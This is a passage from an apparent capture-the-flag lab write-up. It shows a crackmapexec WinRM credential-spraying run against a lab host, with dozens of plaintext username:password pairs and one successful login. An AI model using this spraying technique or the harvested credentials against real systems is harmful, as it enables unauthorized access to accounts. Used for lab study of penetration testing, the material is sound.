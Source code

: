 Wow tons of creds.

Let's put username and password in files.

I'll use [crackmaexec][cme] for password spraying.

> --no-bruteforce - No spray when using file for username and password (user1 => password1, user2 => password2
>
>   --continue-on-success - continues authentication attempts even after successes

```
$ cme winrm 10.10.10.203 --no-bruteforce -u usernames.txt -p passwords.txt --continue-on-success
WINRM       10.10.10.203    5985   NONE             [*] None (name:10.10.10.203) (domain:None)
WINRM       10.10.10.203    5985   NONE             [*] http://10.10.10.203:5985/wsman
WINRM       10.10.10.203    5985   NONE             [-] None\nathen:wendel98
WINRM       10.10.10.203    5985   NONE             [-] None\nichin:fqerfqerf
WINRM       10.10.10.203    5985   NONE             [-] None\nichin:asifhiefh
WINRM       10.10.10.203    5985   NONE             [-] None\noahip:player
WINRM       10.10.10.203    5985   NONE             [-] None\nuahip:wkjdnw
WINRM       10.10.10.203    5985   NONE             [-] None\oakhol:bxwdjhcue
WINRM       10.10.10.203    5985   NONE             [-] None\owehol:supersecret
WINRM       10.10.10.203    5985   NONE             [-] None\paihol:painfulcode
WINRM       10.10.10.203    5985   NONE             [-] None\parhol:gitcommit
WINRM       10.10.10.203    5985   NONE             [-] None\pathop:iliketomoveit
WINRM       10.10.10.203    5985   NONE             [-] None\pauhor:nowayjose
WINRM       10.10.10.203    5985   NONE             [-] None\payhos:icanjive
WINRM       10.10.10.203    5985   NONE             [-] None\perhou:elvisisalive
WINRM       10.10.10.203    5985   NONE             [-] None\peyhou:ineedvacation
WINRM       10.10.10.203    5985   NONE             [-] None\phihou:pokemon
WINRM       10.10.10.203    5985   NONE             [-] None\quehub:pickme
WINRM       10.10.10.203    5985   NONE             [-] None\quihud:kindasecure
WINRM       10.10.10.203    5985   NONE             [-] None\rachul:guesswho
WINRM       10.10.10.203    5985   NONE             [-] None\raehun:idontknow
WINRM       10.10.10.203    5985   NONE             [-] None\ramhun:thisis
WINRM       10.10.10.203    5985   NONE             [-] None\ranhut:getting
WINRM       10.10.10.203    5985   NONE             [-] None\rebhyd:rediculous
WINRM       10.10.10.203    5985   NONE             [-] None\reeinc:iagree
WINRM       10.10.10.203    5985   NONE             [-] None\reeing:tosomepoint
WINRM       10.10.10.203    5985   NONE             [-] None\reiing:isthisenough
WINRM       10.10.10.203    5985   NONE             [-] None\renipr:dummy
WINRM       10.10.10.203    5985   NONE             [-] None\rhiire:users
WINRM       10.10.10.203    5985   NONE             [-] None\riairv:canyou
WINRM       10.10.10.203    5985   NONE             [-] None\ricisa:seewhich
WINRM       10.10.10.203    5985   NONE             [-] None\robish:onesare
WINRM       10.10.10.203    5985   NONE             [+] None\robisl:wolves11 (Pwn3d!)
WINRM       10.10.10.203    5985   NONE             [-] None\robive:andwhich
WINRM       10.10.10.203    5985   NONE             [-] None\ronkay:onesare
WINRM       10.10.10.203    5985   NONE             [-] None\rubkei:the
WINRM       10.10.10.203    5985   NONE             [-] None\rupkel:sheeps
WINRM       10.10.10.203    5985   NONE             [-] None\ryakel:imtired
WINRM       10.10.10.203    5985   NONE             [-] None\sabken:drjones
WINRM       10.10.10.203    5985   NONE             [-] None\samken:aqua
WINRM       10.10.10.203    5985   NONE             [-] None\sapket:hamburger
WINRM       10.10.10.203    5985   NONE             [-] None\sarkil:friday
```
